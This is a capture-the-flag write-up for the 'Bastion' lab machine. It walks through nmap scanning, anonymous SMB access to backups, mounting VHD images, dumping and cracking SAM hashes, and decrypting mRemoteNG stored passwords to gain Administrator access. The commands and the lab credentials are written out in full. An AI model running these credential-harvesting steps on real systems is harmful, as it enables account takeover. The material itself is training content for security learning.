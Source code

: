 # Bastion

![image](https://user-images.githubusercontent.com/5285547/124922763-bdd69080-dff1-11eb-8d6f-a61503cb4e42.png)

## Nmap 

```
PORT      STATE SERVICE      VERSION
22/tcp    open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m58s, deviation: 1h09m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-07-08T14:41:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-08T12:41:28
|_  start_date: 2021-07-08T05:30:31
```

## Smb

```
smbclient -L \\10.10.10.134                   
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        Backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
```


/backups
```
smbclient \\\\10.10.10.134\\backups

smb: \> ls
  .                                   D        0  Thu Jul  8 08:39:38 2021
  ..                                  D        0  Thu Jul  8 08:39:38 2021
  note.txt                           AR      116  Tue Apr 16 11:10:09 2019
  OBFUEDPSHM                          D        0  Thu Jul  8 08:39:38 2021
  SDT65CB.tmp                         A        0  Fri Feb 22 12:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 12:44:02 2019
```

```
cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```

![image](https://user-images.githubusercontent.com/5285547/124925815-c086b500-dff4-11eb-85a6-d8fed8fef8ff.png)

We see some vhd files, but with the note.txt in mind, we should not try to copy them across as they are vrey large files.  
Instead we can mount them using the info here: https://vk9-sec.com/mount-extract-password-hashes-from-vhd-files/

```
sudo apt install libguestfs-tools -y
sudo mkdir /mnt/vhd 
ls -ld /mnt/vhd
sudo mount -t cifs //10.10.10.134/backups /mnt/vhd -o user,password=
cd "/mnt/vhd/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351"
```

This command takes a while so wait a bit. 
```
guestmount --add 9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/any
cd /mnt/any
```

![image](https://user-images.githubusercontent.com/5285547/124927480-98985100-dff6-11eb-87df-9c50b57ff66f.png)


## Cracking SAM database files

Find the SAM database location:
```
cd /mnt/any/Windows/System32/config
cp SAM SYSTEM /tmp 
cd /tmp
```
```
impacket-secretsdump -sam SAM -system SYSTEM local > file
```
![image](https://user-images.githubusercontent.com/5285547/124928250-60454280-dff7-11eb-8a71-52581bbf9f9d.png)

```
john file.sam --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (Administrator)
bureaulampje     (L4mpje)
```

# User

Access 
```
ssh l4mpje@10.10.10.134
bureaulampje
```
or
```
smbmap -u l4mpje -p aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9 -H 10.10.10.134
[+] IP: 10.10.10.134:445        Name: 10.10.10.134                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Backups                                                 READ, WRITE
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
```

user.txt

```
 Directory of C:\Users\L4mpje\Desktop                                                                                           

22-02-2019  16:27    <DIR>          .                                                                                           
22-02-2019  16:27    <DIR>          ..                                                                                          
23-02-2019  10:07                32 user.txt                                                                                    
               1 File(s)             32 bytes                                                                                   
               2 Dir(s)  11.291.443.200 bytes free 
```

## Root

Looking around the file system, we notice an unusual app in the programs folder. 

![image](https://user-images.githubusercontent.com/5285547/124932200-c5e6fe00-dffa-11eb-848a-29f8ba3c5857.png)

Checking this out online, it seems to be a credential backup software. (link: https://mremoteng.org/)

On the websites forums it hinted to a path for the saved creds

![image](https://user-images.githubusercontent.com/5285547/124932516-0e062080-dffb-11eb-9617-b5d872166d1e.png)

![image](https://user-images.githubusercontent.com/5285547/124932678-2ece7600-dffb-11eb-98b1-5eedbbfbd561.png)

```
type .\confCons.xml
```

We see two entries, 

Admin
```
<Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Userna                                                                                                             
me="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="                                                                                                             
 Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389"
```

L4mpje
```
<Node Name="L4mpje-PC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="8d3579b2-e68e-48c1-8f0f-9ee1347c9128"                                                                                                             
 Username="L4mpje" Domain="" Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB" Hostnam                                                                                                             
e="192.168.1.75" Protocol="RDP" 
```

Using this github source we can crack the passwords:  
https://github.com/kmahyyg/mremoteng-decrypt

![image](https://user-images.githubusercontent.com/5285547/124933371-bddb8e00-dffb-11eb-86e6-f60e3c4d900a.png)

![image](https://user-images.githubusercontent.com/5285547/124933439-cdf36d80-dffb-11eb-8750-a8ddd37d38ea.png)

Let's login as Administrator and get the last flag! 

```
ssh administrator@10.10.10.134
thXLHM96BeKL0ER2
```

![image](https://user-images.githubusercontent.com/5285547/124933650-f4b1a400-dffb-11eb-805c-0948868f314a.png)

Thanks, Another one down! 



